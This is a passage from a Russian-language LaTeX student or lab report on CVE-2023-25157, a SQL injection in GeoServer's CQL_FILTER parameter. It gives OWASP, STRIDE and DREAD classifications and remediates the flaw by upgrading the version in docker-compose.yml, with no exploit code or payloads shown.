  
\includegraphics[width=.9\textwidth]{code}
\end{center}

\section{Проверим работоспособность приложения}
Данные.
\begin{center}
  
\includegraphics[width=.7\textwidth]{yes}
\end{center}
Информация о приложении.
\begin{center}
  
\includegraphics[width=.7\textwidth]{version}
\end{center}

\section{Классификация по OWASP}

OWASP Top 10 (2021): A03 – Injection (CWE‑89 SQL Injection) — некорректная обработка пользовательского ввода в CQL\_FILTER приводит к внедрению SQL при генерации запросов к БД.

\section{Классификация по STRIDE}

Spoofing (Подмена личности):  нет напрямую.

Tampering (Вмешательство): да — изменение данных в БД через инъекции.

Repudiation (Отказ): возможно — следы могут быть неполными/оспоримыми при недостаточном аудите.

Information Disclosure (Раскрытие информации): а — чтение данных/функций БД.

Denial of Service (Отказ в обслуживании): да — тяжёлые подзапросы/блокировки.

Elevation of Privilege: косвенно — при наличии функций/прав БД можно расширить влияние.

\section{DREAD}

\begin{itemize}
  \item Damage: 3 — утечка/изменение данных, возможный DoS.
  \item Reproducibility: 3 — простой сетевой запрос.
  \item Exploitability: 3 — без аутентификации, низкая сложность.
  \item Affected users: 3 — затрагивает всех, чьи данные в БД/сервисе.
  \item Discoverability: 3 — публичный эндпоинт, паттерн инъекции типовой.
\end{itemize}

Итог: 15/15 - риск высокий.

\section*{Результаты}

Я выбрал устранение уязвимости через обновление версии ПО в docker-compose.yml до релиза, где CVE-2023-25157 исправлена, потому что это:

\begin{itemize}
  \item Официальный патч от вендора покрывает все проблемные пути, проходит регрессионные тесты.
  \item Нет «самодельных» правок, неполных фиксов и расхождений в зависимостях GeoTools/JDBC.
  \item Локально нет полного исходного кода и инструкции сборки контейнера для воспроизведения бага.
\end{itemize}

Вопреки этому код проанализирован и найдена проблема. Так же найден \href{https://github.com/geoserver/geoserver/commit/145a8af798590288d270b240235e89c8f0b62e1d}{MR}
по исправлению данной уязвимости.



\end{document}

\begin{center}
